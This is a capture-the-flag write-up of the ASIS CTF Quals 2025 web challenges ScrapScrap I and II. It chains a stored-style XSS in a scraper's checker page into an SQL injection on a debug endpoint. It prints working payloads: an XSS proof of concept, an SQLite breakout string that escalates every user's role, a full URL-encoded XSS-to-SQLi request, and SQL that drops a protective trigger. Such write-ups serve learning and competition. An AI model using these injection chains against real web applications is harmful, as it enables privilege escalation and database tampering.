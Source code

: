 # ASIS CTF Quals 2025

URL: https://asisctf.com/

Team: Kalmarunionen

Place: 1 (of 368)

## ScrapScrap I (Revenge)

> Having a user account is great in this service: http://91.107.176.228:3000, how about more?
> Download the [attachment](./ScrapScrap_95295c151d3ec7fdec4bd749bb9fbd3a716142ca.txz)!
> Thanks to Worty as author! 😊

We are given a "web scraper" with a "checker service" to see if websites are scrape-able.

Digging though the code we quickly identify an SQLi in `src/routes/auth.js`, but we can't trigger it because our `session.user.role` is `demo` (the default value)
Only the bot has role `user`.

We cen't do a _CSRF_-attack because the bots cookies has `SameSite=Lax`, so we need to find an XSS.
In `src/public/checker.js` we find an XSS, if we can make the `somethingWentWrong` trigger. This is possible to do by submitting a slow-loading website (e.g. `slow.xn--sb-lka.org`).

PoC:

```
http://localhost:3000/checker?url=https://slow.xn--sb-lka.org/<textarea><img src onerror="XSS"></textarea>
```

So now we can hit the `/debug/create_log` SQLi endpoint, but how to exploit this? We need a sqlite statement that breaks out of both `')` and `'` while being syntactic correct.
My great team members in kalmar came up with this:

```
');update users set role='user';select"'
```

This has the side-effect that everyone becomes `user` and the _ScrapScrap I_ flag is printed for everyone logging in.  We talked to the ASIS authors and was allowed to do this quickly, then undo it.

Payload for ScrapScrap I:

```
http://localhost:3000/checker?url=https://slow.xn--sb-lka.org/%3Ctextarea%3E%3Cimg%20src%20onerror=%22fetch('/debug/create_log',%20%7Bmethod:%20'POST',credentials:%20'include',%20headers:%20%7B%20'Content-Type':%20'application/json'%20%7D,%20body:%20JSON.stringify(%7B'log':%20%60');%20update%20users%20set%20role='user';select%20%5Cx22'%60%7D)%20%7D)%22%3E%3C/textarea%3E
```

## ScrapScrap II (Revenge)

For this we are clearly supposed to use our new `role=user` to access the _scrap_-endpoint and exploiting some of that logic, but kalmar member _null_ came up with this brilliant idea re-using the SQLi and staying below the 50 char limit:

```sql
UPDATE users SET role='user';
DROP TRIGGER users_immutable_dirs;
UPDATE users SET scrap_dir=unhex('2f');
```

The problem here is that `scrap_dir` has a UNIQUE constraint and this will affect multiple users, so the statement will fail.
But he also came up with this clever solution:

```
UPDATE users SET scrap_dir=username
```

Where we registered a user with username `/`.
